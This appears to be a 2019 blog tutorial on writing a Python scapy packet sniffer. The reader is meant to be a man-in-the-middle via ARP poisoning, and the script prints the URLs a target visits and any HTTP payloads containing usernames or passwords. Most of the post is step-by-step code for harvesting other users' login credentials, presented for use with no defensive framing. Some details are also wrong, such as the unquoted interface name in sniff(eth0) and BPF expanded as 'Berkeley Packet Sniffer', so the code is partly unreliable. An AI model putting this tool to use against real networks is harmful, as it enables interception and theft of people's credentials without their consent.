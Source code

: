```yaml
---
layout: post
title:  The Process of Building a Packet Sniffer Tool
date:   2019-03-22
category: computer_science
---
```


In this documentation, I will go through the process on how to write a Packet Sniffer tool in Python which can sniff (capture) data flowing through an interface, filter this data, and display information on terminal like: visited websites, usernames, passwords, images and files downloaded.

Here, in order to capture data, you would need to already be the MITM (Man In The Middle) by using ARP table poisoning, or via any other method. For this tool we will be using the module scapy. To install scapy do the following.
```python
pip install scapy
pip install scapy_http
```
Note: scappy http module is used to filter for the HTTP layer. For this tool, we will build a packet sniffer that analyzes what HTTP website the client requests, and if they type in any username or password on that specific website, we will capture that data and print it out on our terminal.

1. In order to sniff data that is being sent to or from one of our computer interfaces, we will use a function called sniff that comes in the module scapy, but before we can use it let's import all the necessary libraries.
    ```python
    #!/usr/bin/env python
    import scapy.all as scapy
    from scapy.layers import http
    ```

2. Next, let's create a function called sniff() where we will pass in the interface. This interface will be the interface that we will be sniffing (capturing) data from. Here, "iface" means to specify the interface that is to be sniffed. "Store" is to tell scapy not to store packets in memory, hence it doesn't cause too much pressure on the computer. The "prn" argument allows us to specify a call back function, where this function will be called every time the sniff() function captures a packet.
    ```python
    def sniff(interface):
        scapy.sniff(iface=interface, store=False, prn=process_sniffed_pakcet)
    ```

3. After sniffing the data, next, we will write a function to capture the URL requested by the target client. Here, we are extracting data from a specific layer. For this we will use the [BPF (Berkeley Packet Sniffer)](http://biot.com/capstats/bpf.html) syntax. Since web browsers use the HTTP layer, we will look into the packet to see if it has a layer of HTTP request, and if it does, then we will return that packet. So, in order to extract the URL visited by the user, we will use the HTTP request layer which contains the information of the visited/requested web page. Here, "Host" contains the first part of the URL and "Path" contains the rest of the URL. (Note: if you do print(packet.show) you will be shown all the layers in the packet and the fields that are set in this packet. But beware it can get very messy and untidy. The reason of printing packet.show is so that we can find out which layer contains the information we are looking for.)
    ```python
    def get_url(packet):
        return packet[http.HTTPRequest].Host + packet[http.HTTPRequest].Path
    ```

4. Next, we will write a function to capture login information, such as username and password that is entered into the website by the target client. After some search/analyze through packet.show output I noticed that there is a layer called "Raw" which contains all the information of the packets, and I noticed that we would only need the load field. Hence, the following code. Here, to find whether a specific element substring is contained in load, we will create a list of keywords.
    ```python
    def get_login_info(packet):
        if packet.haslayer(scapy.Raw):
            load = packet[scapy.Raw].load
            keywords = ["username", "user", "password", "pass"]
            for keyword in keywords:
                if keyword in load:
                    return load
    ```

5. Next, we will write the callback function which we specified in step 2. This function will be called every time the sniff() function captures a packet. Here, we will call the get_url function from step 3 to get URL requested by the target client and we will print the information out on terminal. Also, we will call the get_login_info function from step 4 to get the login information entered by the target client and we will print it out to terminal. (Note: here, I have used "\n\n" in the print statement, so that when it shows up on terminal, the print statement will be easier to find.)
    ```python
    def process_sniffed_pakcet(packet):
        if packet.haslayer(http.HTTPRequest):
            url = get_url(packet)
            print("[+] HTTP Request >> " + url)

            login_info = get_login_info(packet)
            if login_info:
                print("\n\n[+] Possible Username/Password >> " + login_info + "\n\n")
    ```

6. Finally, we will call the sniff function and pass in the specific interface that is to be sniffed. The specified interface needs to have packets flowing through it. For example, this is achieved after a target Client and Access Point have been ARP spoofed, causing packets to redirect flow of packets through the interface that is used to spoof.
    ```python
    sniff(eth0)
    ```

7. Now, we have a fully working Packet Sniffer tool which can help us see URLs, usernames and passwords sent by the target. If you get stuck in the process or have any questions, leave a comment down below and I will be happy to answer them.
